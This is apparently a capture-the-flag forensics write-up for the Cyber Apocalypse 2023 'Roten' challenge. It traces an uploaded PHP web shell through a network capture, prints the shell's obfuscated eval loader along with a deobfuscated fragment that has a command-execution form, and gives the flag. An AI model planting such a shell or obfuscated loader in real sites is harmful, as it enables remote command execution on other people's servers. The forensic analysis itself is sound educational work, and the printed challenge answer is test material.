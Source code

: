 # Cyber Apocalypse 2023

## Roten

> The iMoS is responsible for collecting and analyzing targeting data across various galaxies. The data is collected through their webserver, which is accessible to authorized personnel only. However, the iMoS suspects that their webserver has been compromised, and they are unable to locate the source of the breach. They suspect that some kind of shell has been uploaded, but they are unable to find it. The iMoS have provided you with some network data to analyse, its up to you to save us.
>
>  README Author: [D13David](https://github.com/D13David)
>
> [`forensics_roten.zip`](forensics_roten.zip)

Tags: _forensics_

## Solution
A wireshark capture accompanies that challenge. Browsing the capture one can fine a huge amount of requests to `galacticmap.php`. Next we search the packet where galacticmap.php was uploaded to get the code.

```php
$iyzQ5h8qf6 .= "\\o>\n u]d> wd ;  Gaoe : ettsssn\"= \$   \$t\$4: lewf l;]e% 'L c'capt a maaOFre mF <'  hnv\n {e >< n>\"\n  Ednn   aets.t.c  m{ \$oem0  d\"n('d\n,a1 ]L h/hce'vveemlS"; 
$iyzQ5h8qf6 .= "Ie }pi'b<ee <e  \n).<t l\" }  Tett m dsp\"c cof o  mw\"o)' []e s[  ds )  o'ot= abn=euTLca\n_l.r/cx(br   ) td o..\n  [re- u ft:>oconi d\$ on]d - "; 
$iyzQ5h8qf6 .= "\" r\$'' \$'% )oe . i'nlac'=e[Etl ne\$>bhe\$r    )\"d> a  e  '(nD s i /\nmomtl et de e?' w=[m e o]1  rc\$\$\"ohaurtd'='Sor a d<>occ>t <  ?>  dppc  d"; 
$iyzQ5h8qf6 .= "'ti t lc/\n/m/ae  y er=  ; r \"o:x w,s { hfv<nime-yif's[re m'ib< (m\"a / {d\"\" =orh  oC-s -heom<apbip &p  [ &'\n i(ed e n % \n!oiah=de=fpriUu'ya e.r b\"'d;b t"; 
$iyzQ5h8qf6 .= " \ni.  \"sio  woTp re(ma!jionee e &\"( r \$t\$xe'c e\$1  i ll2'd='oe'lpbf)d '\$.sr<cr\nl h  r . .in   "; 
for($i = 0; $i < $pPziZoJiMpcu; $i++) $liGBOKxsOGMz[] = ""; 
for($i = 0; $i < (strlen($iyzQ5h8qf6) / $pPziZoJiMpcu); $i++) { for($r = 0; $r < $pPziZoJiMpcu; $r++) $liGBOKxsOGMz[$r] .= $iyzQ5h8qf6[$r + $i * $pPziZoJiMpcu]; } 
$bhrTeZXazQ = trim(implode("", $liGBOKxsOGMz)); 
$bhrTeZXazQ = "?>$bhrTeZXazQ"; 
eval( $bhrTeZXazQ ); 
```

Its obfuscated of course, but the script deobfuscates itself. After replacing the `eval` at the bottom with an echo we get the readable script. And sure enough, somewhere down the road we find a comment...

```php
$file = '';
if ($dir == NULL or !is_dir($dir)) {
        if (is_file($dir)) {
                echo "enters";
                $file = $dir;
                echo $file;
        }
        $dir = './';
}
$dir = realpath($dir.'/'.$value);
##flag = HTB{W0w_ROt_A_DaY}
$dirs = scandir($dir);
echo "<h2>Viewing directory " . $dir . "</h2>";
echo "\n<br><form action='".$_SERVER['PHP_SELF']."' method='GET'>";
echo "<input type='hidden' name='dir' value=".$dir." />";
echo "<input type='text' name='cmd' autocomplete='off' autofocus>\n<input type='submit' value='Execute'>\n";
echo "</form>";
```

... with the flag `HTB{W0w_ROt_A_DaY}`.